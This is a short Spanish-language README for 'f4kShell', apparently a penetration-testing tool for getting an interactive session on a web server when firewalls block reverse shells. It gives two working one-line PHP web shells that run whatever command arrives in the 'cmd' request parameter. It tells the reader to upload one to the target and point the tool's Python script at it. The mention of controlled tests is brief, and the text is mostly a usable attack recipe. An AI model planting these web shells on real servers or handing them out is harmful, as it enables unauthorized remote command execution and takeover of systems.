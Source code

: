 # f4kShell

* En entornos reales suelen existir reglas de red y restricciones (p. ej. reglas de firewall o filtros que bloquean conexiones salientes) que impiden establecer shells reversas tradicionales. Por eso, en pruebas controladas es interesante estudiar técnicas alternativas para recuperar una sesión interactiva y entender los riesgos asociados a la ejecución remota de comandos desde un servidor web.

* Basta con colocar en el servidor un archivo PHP similar al mostrado abajo, cuyo propósito es ejecutar comandos en el entorno remoto.

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```
ó

```php
<?php
      system($_REQUEST['cmd']);
?>
```

* Con el archivo ya en el servidor, basta ejecutar el script (no olvides modificar la ruta del "cmd.php" dentro del script 
"f4kshell.py"para que apunte al fichero PHP y ruta correcta). Abajo se muestra un ejemplo de lo que permite realizar.

![imagen](https://i.ibb.co/8n5hZHWs/cara.png)
